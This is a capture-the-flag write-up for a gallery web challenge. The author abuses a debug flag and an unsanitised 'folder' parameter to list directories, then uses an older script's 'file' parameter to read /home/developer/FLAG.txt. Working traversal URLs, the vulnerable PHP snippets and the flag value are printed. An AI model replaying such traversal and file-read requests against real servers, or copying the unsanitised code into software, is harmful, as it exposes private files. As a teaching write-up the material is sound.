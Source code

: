 A seemingly innocuous galleria, but nothing is ever innocuous. First up, view
the home page's source and you'll spot some interesting looking code down at
the bottom:

```  
	// ~~~~~~  mY oWn CuStOm CoDe ~~~~~~    
	// Written by developer_user  
	var canRun = 0;  
   $(document).ready(function(){  
       $.ajax({url: "get_files_items.php?debug=FALSE&folder=images", async: false, success: function(result){  
       	$("#get_pictures").html(result);  
		}});  
		runMe();  
	});  
  
	// ~~~~~~ eNd mY oWn CuStOm CoDe ~~~~~~   
```

Hmm, looks like possible path traversal? Throw that path into the URL to get:
[http://134.122.94.112/get_files_items.php?debug=TRUE&folder=images](http://134.122.94.112/get_files_items.php?debug=TRUE&folder=images)

You'll notice that it spits out the directory contents. Turning debug to TRUE
yields some more information:

```  
DEBUG Message: Getting a list op all the files in folder: images from the
param folder using PHP function 'glob'.

Code Debug:  
$folder = $_REQUEST["folder"];  
$pictues = glob($folder . "/*");  
```

Since it's just using glob, we can use it to list the files of any directory
on the drive. Let's try some relative paths and see where that gets us:
[http://134.122.94.112/get_files_items.php?debug=TRUE&folder=../](http://134.122.94.112/get_files_items.php?debug=TRUE&folder=../)

One set of links loads up, and if you look at the Work 01 and Model links you
can see which files and directories are in the path specified. With just ../,
only an html folder comes up. Using `get_files_items.php` we can see what's
inside the html folder:
[http://134.122.94.112/get_files_items.php?debug=TRUE&folder=../html](http://134.122.94.112/get_files_items.php?debug=TRUE&folder=../html)

Scrolling through the links you'll find a folder titled
`clue_folder_good_job`. Since the html directory is the root path of the
webserver, to access it you can just go to:
[http://134.122.94.112/clue_folder_good_job/](http://134.122.94.112/clue_folder_good_job/)

In it, you'll find `clue.txt`, the contents of which are:

```  
Well Done!  
The developer wrote the secret key somewhere on machine...  
Clue: The file you are using to exploit has an older version somewhere, good
luck.  
```

Using the clue, let's keep looking through that html directory. You'll find a
directory called `php_folder_cant_find_me_by_brute_force`. Inside, you'll find
a php script called `old_get_files_items.php`. Upon loading, it complains
about debug mode being off. Expecting the syntax to be the same as the newer
version, at a parameter of `?debug=TRUE` to the query to get:

```  
Code Debug:  
$file = $_REQUEST["file"];  
print file_get_contents($file);  
```

What this older script is doing is letting us view the contents of files now,
rather than the file tree. We still need to find the flag, though. The first
place I thought to check was in the system's home directory, so I navigated
to:
[http://134.122.94.112/get_files_items.php?debug=TRUE&folder=/home/](http://134.122.94.112/get_files_items.php?debug=TRUE&folder=/home/)

Inside the home directory, there is a user `developer`. Inside the user's home
folder, there is a `FLAG.txt`. Bingo! Now, using the `old_get_files_items.php`
from before, we can go to:
[http://134.122.94.112/php_folder_cant_find_me_by_brute_force/old_get_files_items.php?debug=TRUE&file=/home/developer/FLAG.txt](http://134.122.94.112/php_folder_cant_find_me_by_brute_force/old_get_files_items.php?debug=TRUE&file=/home/developer/FLAG.txt)

```  
Code Debug:  
$file = $_REQUEST["file"];  
print file_get_contents($file);

S1FLAG.xDI0UiExW4pALibNe8aq4BDvHuk  
```